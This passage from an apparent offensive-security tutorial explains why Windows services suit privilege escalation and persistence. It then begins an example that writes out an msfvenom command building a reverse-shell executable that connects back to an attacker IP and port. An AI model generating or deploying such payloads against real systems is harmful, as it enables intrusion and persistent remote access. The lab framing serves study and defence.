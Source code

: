 - They operate natively over the network – the entire Services API was created with remote servers in mind.    
- They start automatically when the system boots.    
- They may have extremely high privileges in the operating system.   

Managing services requires high privileges, and an unprivileged user can often only view the settings.
This has not changed in over twenty years.    

In a Windows context, improperly configured services might lead to privilege escalation or be utilized as a persistence technique.
So, creating a new service requires Administrator credentials and is not a stealthy persistence approach.   

### practical example

Let's go to consider practical example: how to create and run a Windows service that receives a reverse shell for us.

First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![pers](/assets/images/54/2022-05-09_16-53.png){:class="img-responsive"}    

![pers](/assets/images/54/2022-05-10_17-17.png){:class="img-responsive"}    
